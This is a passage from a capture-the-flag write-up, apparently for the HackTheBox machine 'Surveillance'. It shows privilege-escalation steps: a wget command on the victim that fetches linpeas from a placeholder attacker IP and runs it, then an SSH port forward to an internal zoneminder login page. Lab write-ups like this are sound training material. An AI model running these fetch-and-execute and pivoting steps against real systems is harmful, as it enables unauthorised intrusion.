 We need to escalate our privileges to root. I will transfer linpeas to speed up this process

```bash
# on attacker machine
# if you have linpeas already, skip this step
wget https://github.com/carlospolop/PEASS-ng/releases/download/20231210-89d560ba/linpeas.sh

# run this in the directory of the linpeas.sh file
python3 -m http.server

# on victim machine
wget http://<attacker-ip>/linpeas.sh;chmod +x linpeas.sh;./linpeas.sh
```

After reading the seemingly infinite output, I came across a section that had credentials related to an application called `zoneminder`

![Untitled](Untitled%208.png)

This along with the outputs of `netstat -ano` led me to perform a local port forward to port 8080

```bash
# on attacker machine
ssh -L 2222:127.0.0.1:8080 matthew@surveillance.htb
```

Now, when navigating to `http://127.0.0.1:2222` in your browser, you’ll see the `zoneminder` login page.

![Untitled](Untitled%209.png)
